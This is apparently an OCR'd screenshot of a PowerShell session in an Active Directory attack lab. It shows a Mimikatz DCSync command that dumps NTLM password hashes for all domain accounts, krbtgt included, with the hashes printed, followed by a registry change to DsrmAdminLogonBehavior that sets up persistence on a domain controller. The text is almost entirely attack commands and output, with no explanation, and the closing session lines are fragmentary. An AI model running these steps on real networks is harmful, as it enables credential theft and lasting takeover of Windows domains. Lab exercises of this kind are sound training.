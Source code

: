 * PowerShell Window (DSRM-Administrator)

```
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> ls \\dcorp-dc\c$

    Directory: \\dcorp-dc\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/29/2019   1:32 AM                PerfLogs
d-r---        2/16/2019   9:14 PM                Program Files
d-----        7/16/2016   6:23 AM                Program Files (x86)
d-r---       12/14/2019   8:23 PM                Users
d-----        8/20/2020   2:05 AM                Windows

PS C:\Windows\system32> whoami
dcorp\student503

PS C:\Windows\system32> Invoke-Mimikatz -Command '"lsadump::dcsync /domain:dollarcorp.moneycorp.local /dc:dcorp-dc /all /csv"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::dcsync /domain:dollarcorp.moneycorp.local /dc:dcorp-dc /all /csv
[DC] 'dollarcorp.moneycorp.local' will be the domain
[DC] 'dcorp-dc' will be the DC server
[DC] Exporting domain 'dollarcorp.moneycorp.local'
502     krbtgt  ff46a9d8bd66c6efd77603da26796f35
1211    testda  a16452f790729fa34e8f3a08f234a82c
1131    studentadmin    d1254f303421d3cdbdc4c73a5bce0201
1113    websvc  cc098f204c5887eaa8253e7c2749156f
45101   Control501user  c8aed8673aca42f9a83ff8d2c84860f0
45102   Control502user  c8aed8673aca42f9a83ff8d2c84860f0
45103   Control503user  c8aed8673aca42f9a83ff8d2c84860f0
45104   Control504user  c8aed8673aca42f9a83ff8d2c84860f0
45105   Control505user  c8aed8673aca42f9a83ff8d2c84860f0
45106   Control506user  c8aed8673aca42f9a83ff8d2c84860f0
45107   Control507user  c8aed8673aca42f9a83ff8d2c84860f0
45108   Control508user  c8aed8673aca42f9a83ff8d2c84860f0
45109   Control509user  c8aed8673aca42f9a83ff8d2c84860f0
45110   Control510user  c8aed8673aca42f9a83ff8d2c84860f0
45111   Control511user  c8aed8673aca42f9a83ff8d2c84860f0
45112   Control512user  c8aed8673aca42f9a83ff8d2c84860f0
45113   Support501user  b2e40f5d46efcbb1094704aeb7d9cbe7
45114   Support502user  b2e40f5d46efcbb1094704aeb7d9cbe7
45115   Support503user  b2e40f5d46efcbb1094704aeb7d9cbe7
45116   Support504user  b2e40f5d46efcbb1094704aeb7d9cbe7
45117   Support505user  b2e40f5d46efcbb1094704aeb7d9cbe7
45118   Support506user  b2e40f5d46efcbb1094704aeb7d9cbe7
45119   Support507user  b2e40f5d46efcbb1094704aeb7d9cbe7
45120   Support508user  b2e40f5d46efcbb1094704aeb7d9cbe7
45121   Support509user  b2e40f5d46efcbb1094704aeb7d9cbe7
45122   Support510user  b2e40f5d46efcbb1094704aeb7d9cbe7
45123   Support511user  b2e40f5d46efcbb1094704aeb7d9cbe7
45124   Support512user  b2e40f5d46efcbb1094704aeb7d9cbe7
45125   VPN501user      bb1d7a9ac6d4f535e1986ddbc5428881
```

[dcorp-dc]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
[dcorp-std503]: PS C:\Users\student503\Documents> exit
[dcorp-dc]: PS C:\Users\student503\Documents> whoami;hostname
[dcorp-dc]: PS C:\Users\student503\Documents> ls c:\
[dcorp-dc]: PS C:\Users\student503\Documents>
[dcorp-dc]: PS C:\Users\student503\Documents> ls C:\Users\Administrator\
[dcorp-dc]: PS C:\Users\student503\Documents> exit